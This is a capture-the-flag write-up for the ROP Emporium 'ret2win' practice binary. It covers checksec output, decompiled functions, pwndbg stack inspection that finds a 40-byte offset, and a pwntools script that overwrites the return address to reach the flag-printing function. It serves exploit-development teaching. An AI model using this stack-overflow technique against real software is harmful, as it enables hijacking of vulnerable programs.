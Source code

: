 # Challenge 1 - ret2win
## Description
This is the first of the ROP Emporium challenges. [ret2win](https://ropemporium.com/challenge/ret2win.html)

"ret2win means "return here to win" and it's recommended you start with this challenge."

Let's start by inspecting the binary:
```
mfumega@pwn-boy:/pwn-boy$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
mfumega@pwn-boy:/pwn-boy$ pwn checksec ret2win
[*] '/pwn-boy/ret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

We can see here some information on the protections the binary has enabled, such as Partial RELRO, and NX enabled. 

Let's run the binary.
```
mfumega@pwn-boy:/pwn-boy$ ./ret2win
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAA
Thank you!

Exiting
``` 

The challenge itself its explaining what will happen. Is trying to fit 56 bytes of our input, on a 32 bytes variable. Now let's see whats going on with GDB, and try to understand better this behaviour. 

There is a main function, that calls to another one called `pwnme()`. 

If we open this binary with Ghidra we can see what this `pwnme` function is doing more clearly, even though its not totally necesary. Let's take a look at the `main` and `pwnme` functions, as well as the "winning" function `ret2win`:

```C
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}

void pwnme(void)

{
  undefined1 local_28 [32];
  
  memset(local_28,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_28,0x38);
  puts("Thank you!");
  return;
}

void ret2win(void)

{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

From this code, we know that the `pwnme` function relies on `read()` to capture our input. It will get 0x38 bytes, and store it into a 32 bytes variable, as the text shown at the beginning. 

This being said, let's now jump to GDB! 

I've placed a breakpoint right after the call to `read`: 
```
pwndbg> b *pwnme +97
Breakpoint 1 at 0x400749
pwndbg> r
```

When it asked for my input, I put: "AAAAAAAA"

After hitting the breakpoint, we can inspect the stack and see some useful information: 

```
 ► 0         0x400749 pwnme+97
   1         0x4006d7 main+64
   2   0x7ffff7da8d90 __libc_start_call_main+128
   3   0x7ffff7da8e40 __libc_start_main+128
   4         0x4005da _start+42
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/25gx $rsp
0x7fffffffdd00: 0x4141414141414141      0x000000000000000a
0x7fffffffdd10: 0x0000000000000000      0x0000000000000000
0x7fffffffdd20: 0x00007fffffffdd30      0x00000000004006d7
0x7fffffffdd30: 0x0000000000000001      0x00007ffff7da8d90
0x7fffffffdd40: 0x0000000000000000      0x0000000000400697
0x7fffffffdd50: 0x00000001ffffde30      0x00007fffffffde48
0x7fffffffdd60: 0x0000000000000000      0xf6a712e7147c73f9
0x7fffffffdd70: 0x00007fffffffde48      0x0000000000400697
0x7fffffffdd80: 0x0000000000000000      0x00007ffff7ffd040
0x7fffffffdd90: 0x0958ed18aefe73f9      0x0958fd520ef673f9
0x7fffffffdda0: 0x00007fff00000000      0x0000000000000000
0x7fffffffddb0: 0x0000000000000000      0x00007fffffffde48
0x7fffffffddc0: 0x0000000000000000
pwndbg>
``` 

From this capture from GDB we can see the following info: 
- We are at the pwnme+97 (0x400749)
- When this function ends, the program will continue at main+64 (0x4006d7)
- Our input starts at 0x7fffffffdd00 (we can see the 8 "A" (41 in hex)
- At address 0x7fffffffdd28 is stored the return address 0x40067

```
pwndbg> x/x 0x7fffffffdd28
0x7fffffffdd28: 0x00000000004006d7
pwndbg>
```

So, if we substract the start of our input, to the target memory address, we'll know how many bytes we need to use as padding before overwrite the return value (0x7fffffffdd28 - 0x7fffffffdd00). This will give 40 as a result, so if we put 40 bytes, the next 8 bytes will be the new return address. 
If we overwrite the actual address with the `ret2win` one, we should get the flag. 

Using pwntools: 
```python
from pwn import *

binary_path = '/pwn-boy/ret2win'
p = process(binary_path)

offset = 40
ret2win_addr = 0x400756


payload = b'A' * offset
payload += p64(ret2win_addr)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```

If we do it like this it will show the success message, but not the flag. It's a padding issue. Just add 1 to the ret2win address `ret2win_addr = 0x400756 + 1` and it will do the trick. 

We got the flag: 
```
> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
``` 

That's it for this challenge! 
